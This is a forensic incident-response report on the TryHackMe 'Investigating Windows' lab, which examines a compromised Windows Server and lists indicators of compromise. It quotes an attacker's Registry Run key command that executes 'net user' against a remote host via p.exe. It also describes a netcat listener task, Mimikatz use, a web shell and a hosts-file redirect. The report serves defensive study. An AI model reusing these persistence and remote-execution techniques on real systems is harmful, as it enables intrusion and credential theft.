# Investigating Windows — Host Compromise Analysis

> **Digital Forensics and Incident Response Report** · TryHackMe · Host-based DFIR on a compromised Windows Server, using built-in Windows tooling.

## 1. Executive summary

This report analyzes a compromised Windows Server host. The objective was to identify attacker activity, persistence mechanisms, credential access, lateral movement, and Indicators of Compromise (IOCs). All findings are supported by the screenshots in [`evidence/screenshots/`](evidence/screenshots/).

## 2. System overview

- **Operating system:** Windows Server 2016 Datacenter
- **Build number:** 14393
- **Hostname:** `EC2AMAZ-I8UHO76`
- **Install date:** 03/02/2019

This establishes the system baseline prior to compromise.



## 3. User account analysis

### 3.1 Local user enumeration

Local accounts on the system: `Administrator`, `Guest`, `Jenny`, `John`, `DefaultAccount`.



### 3.2 John — last logon

`John` last logged in on 03/02/2019 at 5:48:32 PM.



### 3.3 Administrative group membership

Accounts with administrative privileges: `Administrator`, `Guest`, `Jenny`.



### 3.4 Jenny account details

`Jenny` is a privileged account but has **never logged on**, indicating possible misuse for attacker persistence.



## 4. Persistence mechanisms identified

### 4.1 Registry Run key

A malicious Run key named `UpdateSvc` executes:

```
C:\TMP\p.exe -s \10.34.2.3 `net user' > C:\TMP\o2.txt
```

This indicates automated execution and outbound communication to a remote host.



## 5. Scheduled task abuse

### 5.1 Malicious scheduled task

The task `"Clean file system"` was identified as malicious.



### 5.2 Task execution details

The task executes `C:\TMP\nc.ps1`; arguments indicate the file listens on port **1348**.



## 6. Compromise timeline

### 6.1 Compromise date

Multiple directories show modification timestamps of **03/02/2019**, indicating the date of compromise.



### 6.2 Privilege assignment timestamp

Event logs show the first privilege-escalation event on 03/02/2019 at 4:04:47 PM.

## 7. Credential access indicators

### 7.1 Mimikatz presence

The presence of `mim.exe` and related output files inside `C:\TMP` indicates the attacker used **Mimikatz** for credential dumping.



## 8. Command and control (C2) indicators

### 8.1 Malicious startup IP

The system connects to **10.34.2.3** on startup (see the Registry Run key above).

### 8.2 External C2 server

The hosts file redirects `google.com` to **76.32.97.132**, used as the attacker's command-and-control server.



## 9. Web shell evidence

### 9.1 Malicious web files

`C:\inetpub\wwwroot` contains unexpected `.jsp` files, indicating the attacker uploaded a web shell.



## 10. Firewall rule modification

### 10.1 Opened ports

The firewall rule `"Allow outside connections for development"` opens port **1337**, used by the attacker.



## 11. DNS poisoning evidence

`google.com` entries in the hosts file were modified to redirect to the attacker's server, confirming DNS poisoning (see §8.2).

## 12. Conclusion

The attacker:

- Established persistence via a Registry Run key
- Created or abused privileged accounts
- Placed malicious scheduled tasks for remote access
- Dumped Windows credentials using Mimikatz
- Installed a web shell in the IIS directory
- Redirected DNS using a modified hosts file
- Opened ports in the firewall for C2 traffic

The system should be considered **fully compromised** and requires immediate isolation, reimaging, and credential resets.

## Indicators of compromise

| Type | Indicator |
|---|---|
| Startup / C2 IP | `10.34.2.3`, `76.32.97.132` |
| Malicious files | `C:\TMP\p.exe`, `C:\TMP\nc.ps1`, `mim.exe`, `.jsp` web shell in `C:\inetpub\wwwroot` |
| Ports | `1348` (task), `1337` (firewall) |
| Persistence | Run key `UpdateSvc`; scheduled task `Clean file system` |
| Suspicious account | `Jenny` (admin, never logged on) |

---

*Originally published at `github.com/hordiikorol/investigating-windows-dfir`.*
